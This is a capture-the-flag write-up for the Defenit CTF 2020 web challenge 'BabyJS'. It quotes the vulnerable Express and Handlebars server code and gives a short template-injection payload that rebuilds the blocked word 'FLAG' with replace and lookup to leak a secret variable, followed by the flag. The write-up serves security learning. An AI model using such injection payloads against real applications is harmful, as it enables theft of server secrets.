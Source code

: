 # BabyJS
*Defenit CTF 2020 - Web 248*<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Render me If you can.

## Look up

```javascript

/* ... */
if (typeof content === 'string' && content.indexOf('FLAG') != -1 || typeof content === 'string' && content.length > 200) {
    res.end('Request blocked');
    return;
}
/* ... */

app.get('/', (req, res) => {
    const { p } = req.query;
    if (!p) res.redirect('/?p=index');
    else res.render(p, { FLAG, 'apple': 'mint' });
});

app.post('/', (req, res) => {
    const { body: { content }, userDir, saveDir } = req;
    const filename = crypto.randomBytes(8).toString('hex');

    let p = path.join('temp', userDir, filename)
    
    fs.writeFile(`${path.join(saveDir, filename)}.html`, content, () => {
        res.redirect(`/?p=${p}`);
    })
});

```

Okay, we can render our own template which has <=200 bytes, and don't contians string `FLAG`. Template engine is handlebars.

## Handlebars 101

Handlebars save there own templating environ in object `this`. In fact, when we try `{{ log this }}`, then node.js console shows the structure of `this` and it includes `FLAG` and `apple`.

And, there is a one more important feature `lookup`. It returns a value of object with key. In here, key can be either string or identifier. Like, when `a='FLAG'` then, `{{lookup this a}}` will give a flag.

Finally, `#with` statement allows us to do a lot of things. Actually, it's really like javascript's `with`, which moves scope into the given object. 

## Exploit


```
{{#with this as |k|}}
  {{#with "FLag"}}
    {{#with (replace "ag" "AG") as |payload|}}
      {{lookup k payload}}
    {{/with}}
  {{/with}}
{{/with}

```

Simple explantation:
1. Save top `this` as k to prevent this is overwritten in other with block
2. with "FLag", move scope into `String "FLag"`
3. Call member function `replace` under "FLag", to make "FLAG". Save it to payload
4. Lookup saved k and get flag.

Anyway, the flag is not related with this challenge. Actually, it'll be a great hint of AdultJS.

**`Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}`**
